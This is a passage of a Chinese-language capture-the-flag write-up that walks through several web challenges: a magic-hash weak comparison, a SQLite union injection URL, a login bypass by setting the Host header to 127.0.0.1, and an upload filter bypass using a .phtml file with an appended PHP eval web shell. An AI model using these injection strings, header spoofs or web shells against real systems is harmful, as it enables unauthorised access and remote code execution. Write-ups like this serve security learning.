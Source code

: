 前面是弱类型比较，老梗了，这次是sha1和md5比较，随便跑跑就有了

[https://www.whitehatsec.com/blog/magic-hashes/](https://www.whitehatsec.com/blog/magic-hashes/)

接下来就是sqlite的注入了，一般来说，我们注入sqlite数据库，要从sqlite_master获取建表的语句以及表名，但是这里把sql列删除了，只能获得返回的表名

一共有两个表，flag表和my_wallets表，剩下的问题就是列了...但是想了很多办法都没办法在sqlite中跑，最后随手试了试id....

```
http://218.2.197.235:23723/admin.php?query=-1 union SELECT id FROM flag
```

## Be Logical ##

稍后在整理吧

## pictures wall ##

感觉是个弱智题目，首先是需要登录为root，但是随便登录进去的是个没用的账户，什么都改不了，结果是在登录的时候修改host为127.0.0.1，从代码里看是这样的

```
<?php
    require_once("./waf.php");
    if(isset($_POST["username"]) && isset($_POST["password"])){
        session_start();
        $ip = $_SERVER['HTTP_HOST'];
        if($ip == "::1" || $ip == "127.0.0.1"){
            $_SESSION["token"] = "0";
            header("Location: index.php");
        }else{
            $key = $_POST["username"] . "~:" . $_POST["password"];
            $_SESSION["token"] = base64_encode($key);
            header("Location: index.php");
        }
    }else{
        header("Location: login.html");
        exit();
    }
?>
```

然后是关键部分了，也就是绕过上传文件的waf，这里完全是白名单检测的，只有phtml可以不被改名

![image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png-188.2kB][6]

....迷一样的代码，上传图片，然后修改后缀为phtml，在图片后加入

```
<script language="php"> @eval($_POST[ddog])</script>
```

getshell


## chall 1 2 ##


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g723vz1mg3ggwnzyibo9yf74/image_1bb32tqf61up77bn1mgpre7c4j9.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/eufulrcwusgaimxpspk9ukra/image_1bb32ubhv13cp1s2u1biup751ra9m.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5jeqqi6bvoku72l77d3c0zsv/image_1bb32up8j1di9h6p1eg97fleh13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ex5ltlcnb355v32vrqus56g5/image_1bb35c0pc1tnh19vi150lh7ma51u.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/46ouk2f7idkxudoc57cy3kg5/image_1bb35dook13ad2va11hr1g1q1kg52b.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/njo0c3o4x7ye7zb1r9exlt8n/image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/btey08y9hxtcmryxt0ojtntl/%7B2C8B3DAC-ABA2-1DE1-B5E4-5084A09E2F83%7D.png